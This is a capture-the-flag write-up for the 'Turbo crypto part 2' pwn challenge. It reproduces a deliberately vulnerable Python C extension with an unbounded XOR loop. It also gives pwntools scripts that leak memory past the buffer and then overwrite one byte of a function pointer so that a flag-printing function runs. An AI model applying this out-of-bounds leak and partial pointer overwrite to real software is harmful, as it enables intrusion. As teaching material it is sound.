


# Turbo crypto part 2

Category: Pwn

Points: 900

Solves: 1

> Using the key you extracted, we found a [link](https://drive.google.com/uc?id=19mmImjpreALZSs0D88BtLY65cFBkHsMC&export=download) to the source code for `turbofastcrypto`. There happens to be a secret `flag` file on the server, and you need to extract it.

The authors generously decided to place a first blood bounty of 1 month of discord nitro on this challenge :heart:.

The source code contains a `turbofastcrypto.c` (reproduced below), a shared object (which I had no experience pwning) and a bunch of other files which were mostly setup files.

```c
#define PY_SSIZE_T_CLEAN
#include <Python.h>

char IV[64] = "IRS{secrets_are_revealed!!}";

#pragma GCC optimize ("O0")
__attribute__ ((used)) static void print_flag() { system("cat flag"); }

static PyObject *encrypt(PyObject *self, PyObject *args) {
    const char *cmd;
    Py_ssize_t len;
    if (!PyArg_ParseTuple(args, "s#", &cmd, &len)) return NULL;
    for (int i = 0; i < len; i++) IV[i] ^= cmd[i];
    return PyBytes_FromStringAndSize(IV, len);
}

static PyMethodDef mtds[] = {
    {"encrypt", encrypt, METH_VARARGS, "Encrypt a string" },
    { NULL, NULL, 0, NULL }
};

static struct PyModuleDef moddef = {
    PyModuleDef_HEAD_INIT,
    "turbofastcrypto", 
    NULL,
    -1,
    mtds
};

PyMODINIT_FUNC PyInit_turbofastcrypto() { return PyModule_Create(&moddef);}
```

This code looks really intimidating (probably the hard part of this challenge). It defines a python C extension, which is built into a shared object, which is then loaded into the CPython runtime, so python code can call these functions.

At first, I thought the bug was some kind of improper use of the cpython functions `PyArg_ParseTuple` and `PyBytes_FromStringAndSize` but according to the documentation they seem to be used correctly.

The `for` loop was much more interesting though. Each character of the user's input is XORed with the IV array and stored back to the IV array. However, there is no bounds checking here, so if the user's input is longer than the size of IV (64 bytes), we could leak, and potentially write memory!

I wrote a small script to leak memory:

```python
from pwn import *
p = remote("challs.sieberrsec.tech", 3477)

# anything ^ 0 = anything
arr = [0 for _ in range(200)]
p.sendline(bytes(arr))
p.recvuntil("Encrypted:")
# probably should use safeeval but whatever
l = eval(p.recvline())
print(hexdump(l))
```

As expected, we see the flag, then a bunch of memory addresses.



If you run this a few times, you'll find that the leak addresses are different every time, except for the first byte (the LSB, things are little endian here) ~~(and also the second digit of the second byte but that's not important)~~. This is probably due to PIE or some other kind of ASLR for shared objects, which randomizes the addresses of functions. Anyway, I ran `objdump -d <the shared object>` to find out what these functions were:



Hmmm, the `encrypt` function ends in `0xc0`, which is exactly the same as the leaked address we saw earlier! And the `print_flag` function's address only differs by 1 byte! If we're able to modify the `0xc0` to `0xa0` we can (hopefully) get the `print_flag` function to be called.

We can do this by XORing the 72nd byte (the location of the first `0xc0`) with 96, since `0xc0 ^ 96 = 160 = 0xa0`. Fortunately, 96 is within the ASCII range, so it shouldn't have any issues.

I made slight modifications to the script to set the 72nd byte:

```python
from pwn import *
p = remote("challs.sieberrsec.tech", 3477)

# anything ^ 0 = anything
arr = [0 for _ in range(200)]
arr[72] = 96
p.sendline(bytes(arr))
p.interactive()
```

When I ran the script, nothing happened and I was really worried that I had messed up somewhere. However, when I pressed enter, the script sent the flag. I realized that instead of overwriting the return pointer, I had overwritten some kind of function table that cpython uses to jump to the C extensions. When the function is executed again, the `print_flag` function is called instead of the `encrypt` function. However, the program crashes afterwards with the error:

```
Traceback (most recent call last):
  File "./tfc.py", line 4, in <module>
    ciphertext = turbofastcrypto.encrypt(plaintext)
SystemError: <built-in function encrypt> returned NULL without setting an error
```

which is completely expected and ok since I've already gotten the flag.

## Comments

I actually got really confused when writing this writeup cos I saw `0x0c` as `0xc0` and thought the writeup was 64. During the CTF I used `.index` to find the writeup so it was fine. I also got the chance to use the really useful pwntools `hexdump` function, which was cool.

Thanks again to the authors for this great challenge and the nitro!